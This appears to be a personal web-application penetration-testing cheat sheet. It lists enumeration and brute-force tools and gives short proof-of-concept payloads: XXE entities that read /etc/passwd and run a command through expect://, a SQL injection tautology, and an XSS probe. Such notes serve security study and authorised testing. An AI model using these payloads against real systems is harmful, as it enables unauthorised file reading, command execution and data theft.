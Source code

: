 ```yaml
---
layout: page
title: Web App
permalink: /web/
---
```


# Index

* [Enumeration](#enumeration)
* [Authentication](#authentication)
* [Session Management](#session-management)
* [XML External Entity](#xml-external-entity)
* [SQL Injection](#sql-injection)
* [Cross Site Scripting](#cross-site-scripting)
* [Deserialization](#deserialization)
* [Other Tools](#other-tools)
* [Methodology](#methodology)

## Enumeration

Enumerating a web application is best performed manually with automated augmentations.

### Spidering

`burpsuite`

### Directory Brute Forcing

`dirbuster`

### Web Server Scanning

`nikto`

---

## Authentication

### Brute Forcing Online

`hydra`

---

## Session Management

---

## XML External Entity

Local file inclusion

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Remote code exectuion

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
Above is just proof of concept, other functions exist.

---

## SQL Injection

Suppose a SQL query like below, where parameters are received from user input

```SQL
SELECT id FROM users WHERE username='$username' AND password='$password';
```

If we managed to input data like below we could return unintended data.

```SQL
SELECT username FROM users WHERE username='' or '1'='1' AND password='' or '1'='1'
```

We can also save a request in burp and feed it into `sqlmap` or fuzz with `sqlmap` directly.
```
sqlmap
```

---

## Cross Site Scripting

Wherever user input is reflect in the site test for XSS with:

``` Javascript
    <script>alert('x')</script>
```

---

## Deserialization

---

## Other Tools

* FoxyProxy - simple proxy switcher for firefox
* w3af - Web Application Scanner
* wikto/Nikto - Web server scanner
* Firebug/Chrome Dev tools - Inspecting client side
* Hydra - Password brute forcing
* wpscan - Scan wordpress

### Unix Commands

* wget - easily download files
* curl - can make post requests too
* ncat - tcp/ip swiss army knife
* socat - two way netcat
* stunnel - ssl tunnel

---

## Methodology

See:
* The Web Application Hacker's Handbook - Chapter 21
* https://jdow.io/blog/2018/03/18/web-application-penetration-testing-methodology/
